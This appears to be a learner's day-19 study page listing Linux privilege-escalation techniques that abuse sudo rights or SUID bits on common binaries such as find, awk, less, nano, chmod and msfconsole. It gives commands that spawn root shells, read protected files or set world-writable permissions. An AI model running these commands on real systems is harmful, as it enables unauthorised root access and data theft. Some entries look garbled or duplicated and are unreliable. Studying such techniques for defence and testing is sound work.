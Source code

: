 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
   ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

### ♦ `install` :
     The `install` command can change permissions and execute a copy of the file with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which install) .

  LFILE=file_to_change
  TF=$(mktemp)
  ./install -m 6777 $LFILE $TF
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  TF=$(mktemp)
  sudo install -m 6777 $LFILE $TF
  ```

### ♦ `msfconsole` :
   ⇨ The `msfconsole` can spawn a Ruby interpreter to break out of restricted environments and escalate privileges.

**Commands:**
• Shell:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```
• Sudo:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```

### ♦ `nano`
   ⇨ The `nano` text editor can be exploited to spawn a shell with elevated privileges if allowed to run as superuser.

**Commands:**
• Sudo:
  ```sh
  sudo nano
  ```
  • In nano, press `Ctrl+R` then `Ctrl+X`, then type:
  ```sh
  reset; sh 1>&0 2>&0
  ```

### ♦ `less`
   ⇨ The `less` command can be used to read files with elevated privileges and can also spawn a shell.

**Commands:**
• Sudo:
  ```sh
  sudo less /etc/passwd
  ```
  • In less, type:
  ```sh
  !/bin/sh
  ```

### ♦ `find`
   ⇨ The `find` command can be used to search for files with elevated privileges and can be abused to spawn a shell.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which find) .
  ./find . -exec /bin/sh \;
  ```
• Sudo:
  ```sh
  sudo find . -exec /bin/sh \;
  ```

### ♦ `awk`
   ⇨ The `awk` command is a powerful text-processing tool that can be exploited to spawn a shell with elevated privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which awk) .
  ./awk 'BEGIN {system("/bin/sh")}'
  ```
• Sudo:
  ```sh
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```

---


### These are the various ways of privillage escalation by using some comman commands. Each of them are used in different scenarios.
